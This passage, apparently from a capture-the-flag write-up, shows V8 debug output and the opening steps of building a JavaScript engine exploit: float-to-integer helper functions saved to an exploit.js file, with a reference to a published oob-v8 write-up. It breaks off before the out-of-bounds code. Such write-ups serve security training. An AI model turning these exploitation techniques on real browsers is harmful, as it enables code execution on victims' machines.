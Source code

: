     {a: 42, b: 43}
    d8> %DebugPrint(o2);
    DebugPrint: 0x25cc080c8e2d: [JS_OBJECT_TYPE]
     - map: 0x25cc08284f69 <Map(HOLEY_ELEMENTS)> [FastProperties]
     - prototype: 0x25cc08241351 <Object map = 0x25cc082801c1>
     - elements: 0x25cc080406e9 <FixedArray[0]> [HOLEY_ELEMENTS]
     - properties: 0x25cc080406e9 <FixedArray[0]> {
        #a: 1337 (const data field 0)
        #b: 1338 (const data field 1)
     }
    ...[snip]...
    {a: 1337, b: 1338}



Both objects have the same map, 0x25cc08284f69.

## Shell as chromeuser

### v8 Exploit Primitives

[Faith's writeup of
oob-v8](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/) provides
a nice roadmap for exploitation here, and I'll try to call out where I
diverge from it.

#### ftoi and itof

I'll start my script with a couple of helper functions. Because my out
of bounds reads will be looking to return doubles (floats), I'll want
some code to convert those back to hex values. Similarly, I'll need a
way to take an int to a float to write. These functions come directly
from the above post:



    /// Helper functions to convert between float and integer primitives
    var buf = new ArrayBuffer(8); // 8 byte array buffer
    var f64_buf = new Float64Array(buf);
    var u64_buf = new Uint32Array(buf);

    function ftoi(val) { // typeof(val) = float
        f64_buf[0] = val;
        return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
    }

    function itof(val) { // typeof(val) = BigInt
        u64_buf[0] = Number(val & 0xffffffffn);
        u64_buf[1] = Number(val >> 32n);
        return f64_buf[0];
    }



I'll save those in my `exploit.js`.

Now that I'm going to be reading / writing across bounds, I'll use the
release `d8`:
